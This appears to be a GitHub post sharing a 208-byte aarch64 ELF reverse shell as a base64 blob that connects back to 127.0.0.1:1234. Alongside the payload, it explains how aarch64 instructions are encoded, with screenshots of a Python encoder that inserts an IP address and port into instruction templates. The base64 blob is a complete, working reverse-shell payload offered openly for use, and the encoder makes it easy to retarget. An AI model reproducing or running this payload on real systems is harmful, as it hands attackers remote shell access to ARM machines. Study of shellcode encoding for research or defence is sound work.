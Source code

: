 # 208 byte aarch64 ELF reverse shell

Originally posted 2022-11-16

Reverse shell, connects back to 127.0.0.1:1234

Base64 (280 characters)
```
f0VMRsgYgNICAIDSAgAAFAIAtwAhAIDSBAAAFAAAAABAAAAAAAAAAEAAgNIBAADUCgAAFE
AAOAABAAAAAAAAAAEAAAAFAAAAAAAAAAAAAAAAAAAUAAAAAOMDACoFAAAUABAAAAAAAAAA
EAAAAAAAAGgZgNICAoDSQQCA0oFAuvLhD8DyASDg8uEPH/jhAwCRAQAA1AgDgNJhAIDS4g
MfquADAyohBADxAQAA1IH//1SoG4DS4EWM0iDNrfLgZc7yAA3g8uADAPngAwCRAQAA1A==
```

Running on a raspberry pi 4 with the latest kernel

![two terminals, one loading the base64 into a file called nice.bin and executing it, and another terminal catching the reverse shell and running ls to show the size of the binary](https://user-images.githubusercontent.com/26436276/209994747-bd16dde4-342f-4f34-afff-24bcd37b7409.png)

I was playing with automatically encoding certain aarch64 instructions so I can script out certain payloads and this was my PoC. It's a bit trickier to encode bc of how aarch64 is packed but it's not that crazy.

![a python function that encodes IP and Port values and places them in instruction templates and returns the buffer of bytes](https://user-images.githubusercontent.com/26436276/209994818-3adac183-72b2-495e-b23c-8ab71ff35142.png)

I made this little diagram to explain aarch64 instruction encoding. Each instruction is movk x1, somevalue, some shift here. But you can see things like where in x1 the value is places (denoted by the shift or hw field) and then the immediate value which is highlighted in orange.

![listing of aarch64 instructions with annotated bits](https://user-images.githubusercontent.com/26436276/209994890-b086b2cf-a306-46bf-ba8c-80f6568b4c3e.png)

The encoding is different for each class of instructions, but you'll have to read the instruction set docs for full explanation of each. Just wanted to show what goes into encoding an instruction for those curious.
